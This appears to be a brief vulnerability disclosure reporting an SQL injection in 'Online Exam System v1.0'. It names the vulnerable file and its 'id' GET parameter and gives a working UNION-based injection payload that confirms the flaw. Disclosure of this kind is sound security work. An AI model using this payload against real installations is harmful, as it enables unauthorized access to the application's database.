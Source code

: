 # Online Exam System v1.0 has SQL injection

BUG_Author:hukai

Website source code address: https://www.sourcecodester.com/php/13877/online-exam-timer.html

Vulnerability File: /CEE/adminpanel/admin/facebox_modal/updateCourse.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-2' union all select null,concat(0x76777879,0x52535556),null-- -

There is sql injection, and the UNION query is successful

![image](https://github.com/sushanburanxisha/cve/blob/main/sql1.png)
